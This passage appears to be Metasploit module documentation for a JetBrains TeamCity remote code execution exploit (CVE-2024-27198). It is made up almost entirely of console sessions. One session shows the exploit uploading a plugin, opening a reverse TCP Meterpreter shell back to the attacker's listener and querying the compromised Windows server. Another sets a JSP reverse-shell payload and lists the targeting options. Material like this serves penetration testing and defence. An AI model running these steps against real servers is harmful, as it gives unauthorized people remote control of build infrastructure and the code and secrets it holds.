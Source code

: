 ```

Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c1hvczdQOUFMX2J5Z3NiZU9MYzFDSEdPQ213.Mzk3NmQ5MmQtOTBmOC00OGNjLTkyNWEtMzRhYWI2YzUwMTU4
[*] Uploading plugin: TdbCU0EE
[*] Sending stage (57971 bytes) to 192.168.86.68
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.68:53099) at 2024-02-23 14:13:22 +0000
[*] Deleting the plugin...
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of 'C:\TeamCity\webapps\ROOT\plugins\TdbCU0EE' on the target
[!] This exploit may require manual cleanup of 'C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_TdbCU0EE' on the target
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\TdbCU0EE' on the target

meterpreter > getuid
Server username: WIN-CMULENHFCK7$
meterpreter > sysinfo
Computer        : WIN-CMULENHFCK7
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > 
```

### Java Server Page

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 1
target => 1
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
```